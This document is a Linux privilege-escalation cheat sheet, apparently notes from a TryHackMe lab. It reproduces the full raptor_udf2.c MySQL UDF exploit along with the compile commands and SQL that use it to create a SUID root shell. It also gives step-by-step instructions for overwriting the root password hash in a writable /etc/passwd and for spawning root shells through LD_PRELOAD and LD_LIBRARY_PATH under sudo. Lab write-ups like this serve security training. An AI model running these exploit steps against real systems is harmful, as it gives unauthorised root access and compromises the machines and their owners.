

# LinuxPrivEsc
----
## Service Exploits

**Famous Mysql Exploit**

```sh
┌──(******㉿kali)-[~/CTF{}/THM/linuxPrivEsc]
└─$ searchsploit MySQL 4.x/5.0      
----------------------- ---------------------------------
 Exploit Title         |  Path
----------------------- ---------------------------------
MySQL 4.x/5.0 (Linux)  | linux/local/1518.c
MySQL 4.x/5.0 (Windows | windows/remote/3274.txt
----------------------- ---------------------------------
Shellcodes: No Results
                                                         
┌──(******㉿kali)-[~/CTF{}/THM/linuxPrivEsc]
└─$ searchsploit -m 1518      
  Exploit: MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)
      URL: https://www.exploit-db.com/exploits/1518
     Path: /usr/share/exploitdb/exploits/linux/local/1518.c
    Codes: N/A
 Verified: True
File Type: C source, ASCII text
Copied to: /home/******/CTF{}/THM/linuxPrivEsc/1518.c


```

**`raptor_udf2.c`**

```c
─$ cat 1518.c    
/*
 * $Id: raptor_udf2.c,v 1.1 2006/01/18 17:58:54 raptor Exp $
 *
 * raptor_udf2.c - dynamic library for do_system() MySQL UDF
 * Copyright (c) 2006 Marco Ivaldi <raptor@0xdeadbeef.info>
 *
 * This is an helper dynamic library for local privilege escalation through
 * MySQL run with root privileges (very bad idea!), slightly modified to work
 * with newer versions of the open-source database. Tested on MySQL 4.1.14.
 *
 * See also: http://www.0xdeadbeef.info/exploits/raptor_udf.c
 *
 * Starting from MySQL 4.1.10a and MySQL 4.0.24, newer releases include fixes
 * for the security vulnerabilities in the handling of User Defined Functions
 * (UDFs) reported by Stefano Di Paola <stefano.dipaola@wisec.it>. For further
 * details, please refer to:
 *
 * http://dev.mysql.com/doc/refman/5.0/en/udf-security.html
 * http://www.wisec.it/vulns.php?page=4
 * http://www.wisec.it/vulns.php?page=5
 * http://www.wisec.it/vulns.php?page=6
 *
 * "UDFs should have at least one symbol defined in addition to the xxx symbol
 * that corresponds to the main xxx() function. These auxiliary symbols
 * correspond to the xxx_init(), xxx_deinit(), xxx_reset(), xxx_clear(), and
 * xxx_add() functions". -- User Defined Functions Security Precautions
 *
 * Usage:
 * $ id
 * uid=500(raptor) gid=500(raptor) groups=500(raptor)
 * $ gcc -g -c raptor_udf2.c
 * $ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
 * $ mysql -u root -p
 * Enter password:
 * [...]
 * mysql> use mysql;
 * mysql> create table foo(line blob);
 * mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
 * mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
 * mysql> create function do_system returns integer soname 'raptor_udf2.so';
 * mysql> select * from mysql.func;
 * +-----------+-----+----------------+----------+
 * | name      | ret | dl             | type     |
 * +-----------+-----+----------------+----------+
 * | do_system |   2 | raptor_udf2.so | function |
 * +-----------+-----+----------------+----------+
 * mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
 * mysql> \! sh
 * sh-2.05b$ cat /tmp/out
 * uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)
 * [...]
 *
 * E-DB Note: Keep an eye on https://github.com/mysqludf/lib_mysqludf_sys
 *
 */

#include <stdio.h>
#include <stdlib.h>

enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};

typedef struct st_udf_args {
        unsigned int            arg_count;      // number of arguments
        enum Item_result        *arg_type;      // pointer to item_result
        char                    **args;         // pointer to arguments
        unsigned long           *lengths;       // length of string args
        char                    *maybe_null;    // 1 for maybe_null args
} UDF_ARGS;

typedef struct st_udf_init {
        char                    maybe_null;     // 1 if func can return NULL
        unsigned int            decimals;       // for real functions
        unsigned long           max_length;     // for string functions
        char                    *ptr;           // free ptr for func data
        char                    const_item;     // 0 if result is constant
} UDF_INIT;

int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)
{
        if (args->arg_count != 1)
                return(0);

        system(args->args[0]);

        return(0);
}

char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message)
{
        return(0);
}

// milw0rm.com [2006-02-20]       
```
- **In this file there is a detail info about how to get access**

### In short
```sh
cd /home/user/tools/mysql-udf

gcc -g -c raptor_udf2.c -fPIC

gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

mysql -u root 

```
**MySql part**
```sql
use mysql;

create table foo(line blob);

insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));

select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';

create function do_system returns integer soname 'raptor_udf2.so';

select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');

exit
```
**Getting Root**
```sh
/tmp/rootbash -p

rm /tmp/rootbash
exit
```
## Through /etc/shadow


#### Modifying the `/etc/passwd` File to Change Root User Password

The `/etc/passwd` file contains information about user accounts. It is world-readable, but usually only writable by the root user. Historically, the `/etc/passwd` file contained user password hashes, and some versions of Linux still allow password hashes to be stored there.

##### Step 1: Check if `/etc/passwd` is World-Writable

To check if the `/etc/passwd` file is world-writable, run the following command:

```bash
ls -l /etc/passwd
```

##### Step 2: Generate a New Password Hash

Generate a new password hash with a password of your choice using the `openssl` command:

```bash
openssl passwd newpasswordhere
```

##### Step 3: Edit the `/etc/passwd` File

Edit the `/etc/passwd` file and place the generated password hash between the first and second colon (`:`) of the root user's row, replacing the `"x"`.

Alternatively, you can copy the root user's row and append it to the bottom of the file, changing the first instance of the word `root` to `newroot` and placing the generated password hash between the first and second colon (`:`), replacing the `"x"`.

##### Step 4: Switch to the Root User

Switch to the root user using the new password:

```bash
su root
```

If you created the `newroot` user, switch to it using the new password:

```bash
su newroot
```

## Weak File Permissions - Writable /etc/passwd

- The /etc/passwd file is world-writable:

`ls -l /etc/passwd`



## SUDO
- List the programs which sudo allows your user to run:

`sudo -l`

## LD_PRELOAD and LD_LIBRARY_PATH As ENV

#### Manipulating Environment Variables to Spawn a Root Shell

##### Step 1: Check Inherited Environment Variables

Check which environment variables are inherited by running the following command:

```bash
sudo -l
```

Look for the `env_keep` options. Note that `LD_PRELOAD` and `LD_LIBRARY_PATH` are both inherited from the user's environment:

- **LD_PRELOAD**: Loads a shared object before any others when a program is run.
- **LD_LIBRARY_PATH**: Provides a list of directories where shared libraries are searched for first.

##### Step 2: Create a Shared Object Using `preload.c`

Create a shared object using the code located at `/home/user/tools/sudo/preload.c`:

```bash
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

##### Step 3: Run a Program with `LD_PRELOAD`

Run one of the programs you are allowed to execute via `sudo` (listed when running `sudo -l`), while setting the `LD_PRELOAD` environment variable to the full path of the new shared object:

```bash
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.

##### Step 4: Check Shared Libraries Used by Apache2

Run `ldd` against the `apache2` program file to see which shared libraries are used by the program:

```bash
ldd /usr/sbin/apache2
```

##### Step 5: Create a Shared Object Named After a Library

Create a shared object with the same name as one of the listed libraries (e.g., `libcrypt.so.1`) using the code located at `/home/user/tools/sudo/library_path.c`:

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

##### Step 6: Run Apache2 with `LD_LIBRARY_PATH`

Run `apache2` using `sudo`, while setting the `LD_LIBRARY_PATH` environment variable to `/tmp` (where the compiled shared object is located):

```bash
sudo LD_LIBRARY_PATH=/tmp apache2
```

